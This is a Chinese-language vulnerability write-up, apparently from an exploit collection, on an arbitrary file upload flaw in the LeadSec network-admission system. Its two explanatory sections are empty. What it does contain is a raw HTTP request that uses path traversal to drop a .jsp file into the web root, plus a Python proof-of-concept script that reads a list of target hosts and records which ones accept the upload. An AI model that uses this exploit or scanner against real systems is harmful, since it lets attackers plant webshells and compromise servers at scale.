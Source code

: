 联软准入 任意文件上传漏洞
=========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    POST /uai/download/uploadfileToPath.htm HTTP/1.1
    Host: www.0-sec.org:8099
    User-Agent: python-requests/2.22.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 308
    Content-Type: multipart/form-data; boundary=ea8ef2c3b016cd152a651d2799ef2c5c

    --ea8ef2c3b016cd152a651d2799ef2c5c
    Content-Disposition: form-data; name="input_localfile"; filename="111.jsp"
    Content-Type: text/plain

    aaaaa
    --ea8ef2c3b016cd152a651d2799ef2c5c
    Content-Disposition: form-data; name="uploadpath";

    ../webapps/notifymsg/devreport/
    --ea8ef2c3b016cd152a651d2799ef2c5c--

![1.png](./resource/联软准入任意文件上传漏洞/media/rId24.png)

上传路径：

`https://www.0-sec.org/notifymsg/devreport/111.jsp`

![2.png](./resource/联软准入任意文件上传漏洞/media/rId25.png)

### poc

> poc.py

    import requests


    def main(line):
        proxies = {'http': 'http://localhost:8080'}
        # url = 'https://www.0-sec.org/uai/download/uploadfileToPath.htm'
        url = line + '/uai/download/uploadfileToPath.htm'
        url_2 = line.strip() + '/notifymsg/devreport/{}'
        filename = '111.txt'
        files = {
            'input_localfile': (filename, open(filename), 'text/plain'),
        }
        content = {
            'uploadpath': '../webapps/notifymsg/devreport/'
        }
        res = requests.post(url, files=files, proxies=proxies, data=content, verify=False)
        # print(res.text)
        res_2 = requests.get(url_2.format(filename), verify=False)
        if 'xxx' in res_2.text:
            print('ok....')
            with open('ok.txt', mode='a') as f:
                f.write(url_2.format(filename) + '\n')
                print('写入成功...')


    if __name__ == '__main__':
        with open('ip.txt', mode='r') as f:
            for line in f.readlines():
                if line == '\n':
                    pass
                main(line)

参考链接
--------

> https://blog.csdn.net/m0\_48520508/article/details/108790281
